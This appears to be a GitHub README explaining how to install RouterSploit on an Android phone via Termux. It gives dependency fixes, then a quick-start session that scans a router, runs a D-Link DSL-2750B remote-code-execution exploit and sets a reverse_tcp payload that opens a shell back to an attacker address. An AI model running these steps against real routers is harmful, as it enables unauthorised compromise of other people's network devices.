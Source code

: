### 在android 手机上配置路由器攻击的环境

![](https://github.com/desword/shellcode_tools/img/android_sploit.jpg)


* download termux
    * https://cn.apksum.com/down/com.termux_0.65_free
    * install python on termux
          * https://wiki.termux.com/wiki/Python
	* The default python of termux is python3, therefore it should work for routersploit.
* errors when isntall routersploit on termux
    * erros of compiling cffi
		* [ref] https://github.com/termux/termux-packages/issues/1964
			* pkg install clang
		* if file "ffi.h" can not find,then 
			* apt search ffi 
			* apt install libffi libffi-dev
		* Then the cffi should be installed successfully.
	* errors of ,Issue installing cryptography (due to openssl built with no-engine) all about the openssl
		* [ref] https://github.com/termux/termux-packages/issues/2847
		* install the following old version of openssl, and it should work.
			* OpenSSL without no-engine config for AArch64: (in my test on HUAWEI MATE 8, the following packages should work)
				* openssl_1.1.1-2_aarch64.deb.gz
				* openssl-dev_1.1.1-2_aarch64.deb.gz
				* openssl-tool_1.1.1-2_aarch64.deb.gz
			* OpenSSL without no-engine config for arm:
				* openssl_1.1.1-2_arm.deb.gz
				* openssl-dev_1.1.1-2_arm.deb.gz
				* openssl-tool_1.1.1-2_arm.deb.gz
			* download 
				* using wget to download the above packages.
			* [CMD]
				* gunzip openssl_1.1.1-2_arm.deb.gz
				* gunzip openssl-dev_1.1.1-2_arm.deb.gz
				* gunzip openssl-tool_1.1.1-2_arm.deb.gz
				* dpkg -i openssl_1.1.1-2_arm.deb
				* dpkg -i openssl-dev_1.1.1-2_arm.deb
				* dpkg -i openssl-tool_1.1.1-2_arm.deb
	* Quick keyboards
		* using tab (volum +, and t)
		* show all keyboards (volum +, and q)
		* cursor left/right (volum +, and a/d) 
		* previous/latter commands (volum +, and w/s)
* quick start for RouterSploit
	* python rsf.py
	* use scanner/autopwn
	* set target 192.168.1.1
	* rsf (AutoPwn) > use exploits/routers/dlink/dsl_2750b_rce                                                        
	* rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1                                                             
	* [+] target => 192.168.1.1                                                                                       
	* rsf (D-Link DSL-2750B RCE) > check                                                                              
	* [+] Target is vulnerable                                                                                        
	* rsf (D-Link DSL-2750B RCE) > run
	* cmd > show payloads
	* cmd > set payload reverse_tcp                                                                                   
	* cmd (MIPSBE Reverse TCP) > show options 
	* cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.10
	* cmd (MIPSBE Reverse TCP) > run
	
		
			
			
			
